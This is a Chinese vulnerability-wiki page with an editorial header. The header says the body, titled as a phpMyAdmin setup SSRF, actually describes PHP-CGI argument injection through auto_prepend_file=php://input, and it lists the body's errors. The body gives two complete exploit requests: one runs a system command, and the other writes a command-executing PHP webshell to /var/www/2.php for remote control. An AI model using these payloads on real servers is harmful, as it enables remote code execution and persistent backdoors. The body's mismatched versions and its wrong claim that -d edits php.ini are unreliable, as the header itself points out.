



# PHP-CGI 参数注入历史请求（原 phpMyAdmin setup 归属不适用）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

正文的技术主体是 PHP-CGI 请求参数与 auto_prepend_file 等选项，保留为该机制的历史请求资料。它不证明 phpMyAdmin setup SSRF，开头 phpMyAdmin 版本不可用于判断 PHP-CGI 的影响；-d 为请求期选项，不等于永久修改 php.ini。图片错引和请求片段问题继续保留提醒。

- 适用前提：正文未给PHP CGI模式/版本，而仅列phpMyAdmin setup版本
- 证据范围：标题和版本讲setup SSRF，实际全为?-d auto_prepend_file请求；不是同一机制

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0根因与复现完全不对应：PHP-CGI参数注入被套到phpMyAdmin setup SSRF版本上
- 解释-d是在请求期设置选项，却称修改php.ini文件；技术含义错
- 多张图误引用前一篇phpMyAdmin XSS目录
- HTTP请求掺注释和固定长度；写入webshell需要文件权限且有持续副作用
- 现已按 PHP-CGI 参数注入资料归类，不能作为已复现的 phpMyAdmin setup 漏洞

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

其安装在Web服务器上的接口界面,主要用于使用php来管理安装服务器上的后台数据库(MySQL数据库),但如果采用默认安装,敏感路径未做出处理,便会存在安全漏洞,最突出的是其setup脚本中存在着服务器端请求伪造漏洞。远程攻击者可利用该漏洞执行未授权的操作。

二、漏洞影响
------------

phpMyAdmin
4.0.10.19之前的版本，4.4.15.10之前的4.4.x版本，4.6.6之前的4.6.x版本。

三、复现过程
------------

如果用户未对phpmyadmin目录下的setup文件进行安全处理,那普通用户可以在不进行身份认证的情况下,便可以配置服务器信息(防范措施:不允许其他用户从公网访问phpMyAdmin目录或者禁止访问setup文件)我们可以通过构造参数执行配置指令,并利用php伪协议提交post内容执行

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1      
     #问号及其后面的内容用于修改修改php的主配置文件php.ini，从而可以执行下面插入的php代码

    Host: www.0-sec.org 

    Content-Length: 35

    <?php 

    passthru('id');        
     #passthru() 函数用于调用系统命令，并把命令的运行结果原样地直接输出到标准输出设备上。
     #也可以将id命令换成其他Linux命令去获取web系统的数据,目前使用的是普通用户www-date,权限有限

    die();                
     #die() 函数输出一条消息，并退出当前脚本,此处使用为了避免获取多余无用的信息

    ?>

可以使用Burpsuite的Repeater工具该发送post请求,获取目标的信息由刚刚的id命令得知目前的用户为www-data,由查看账户信息得知其主目录为/var/www,那么便可以向其主目录写入木马,以实现远程控制的效果命令如下

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 102

    <?php 

    passthru('echo "<?php \$cmd = \$_GET["cmd"];system(\$cmd);?>" >/var/www/2.php');
    #该木马表示将GET方式获取的指令赋值于cmd命令,并使用system()函数运行cmd变量存储的命令
    #反斜杠作用:避免服务器将上传内容过滤,输入命令无效
    die();

    ?>

通过在浏览器访问该木马,便可获取目标系统的shell

参考链接
--------

> https://louisnie.github.io/2018/10/23/%E6%89%8B%E5%8A%A8%E6%8C%96%E6%8E%98%E4%B9%8B%E9%BB%98%E8%AE%A4%E5%AE%89%E8%A3%85%E6%BC%8F%E6%B4%9E-1/
